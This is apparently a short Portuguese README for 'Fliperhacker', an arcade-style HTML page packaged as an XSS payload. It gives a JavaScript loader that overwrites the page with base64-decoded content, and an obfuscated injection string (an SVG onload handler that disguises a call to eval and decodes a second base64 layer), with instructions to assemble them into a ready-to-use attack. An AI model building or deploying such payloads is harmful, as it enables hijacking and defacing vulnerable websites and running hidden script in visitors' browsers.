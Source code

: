 # Fliperhacker
Uma simples página em html  estilo fliperama feita para jogar  alguns dos games que fizemos  em forma de payload para XSS.

! Para tornar este index.html em um payload, não se esqueça de: 

*Encodar ela em base 64. colar o resultado do base64 aqui

	document.addEventListener("DOMContentLoaded", function(event) {

    var pocpage = "base64 aqui";

    document.open();

    document.write(atob(pocpage));

    document.close();
    });;
    
Após isso, refaça o encode desse código js e cole o resultado aqui
 
 
><svg/onload=window[490837..toString(1<<5)](atob('resultado_do_segundo_base64_aqui'))>xui.vm
 
 e estará pronto para ser usado :)
